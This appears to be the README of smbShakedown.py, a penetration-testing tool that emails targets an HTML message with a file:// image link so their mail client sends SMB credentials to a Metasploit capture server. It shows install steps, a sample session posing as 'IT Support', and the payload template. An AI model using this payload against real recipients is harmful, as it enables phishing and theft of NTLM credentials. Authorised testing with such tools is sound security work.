 #smbShakedown.py
    Description: A simplified SMB Email Client Attack script used for pentests.
    Created by: Nick Sanzotta / @beamr
    Version: smbShakedown.py v 1.0
  
    
Installation:
***
    git clone https://github.com/NickSanzotta/smbShakedown.git
    cd smbShakedown/
    python smbShakedown.py

Usage:
***
    1.Enter SMTP Server address:
    
    2.Enter SMTP Server credentials: 
    (anonymous connections not supported.)
    
    3.Configure "from" and "to" addresses:
    (separate multiple email addresses with a comma)
    
    4.Enter SMBCapture Server IP address, so it can be placed in body of email:
    EX: <img src=file://127.0.0.1/image/foo.gif>
    
    5. Choose whether or not to launch Metasploit's SMB Capture server.

Example:
***        
        Enter SMTP Server address[smtp.gmail.com]: 
        ENTERED: "smtp.gmail.com"

        Enter your SMTP Server Port[587]: 
        ENTERED: "587"

        Enter SMTP Server username[user@gmail.com]: 
        ENTERED: "user@gmail.com"

        Enter SMTP Server password: 

        Enter SMB Capture Server IP address[10.37.242.7]: 
        ENTERED:10.37.242.7

        Enter "from name":[IT Support]
        ENTERED:IT Support
        
        Enter "from address":[user@gmail.com]:user@gmail.com
        ENTERED:user@gmail.com
        
        Enter recipient(s) name[Bob]: Bob
        ENTERED:Bob
        
        etc..
        
To update email template modify the following in source:
Becareful not to remove the variables {0},{1},{2},{3} and {4} and 
*** 
    ### EDIT: Email Message Template Below ###
	message = """From: {0} <{1}>
    To: {2} <{3}>
    MIME-Version: 1.0
    Content-type: text/html
    Subject: smbShakedown.py test.


    ...
    <b>smbShakedown.py test message.</b>
    <br>
    <img src=file://{4}/image/foo.gif>
    """
    ##########################################################

To do:
***
    Add error handling.


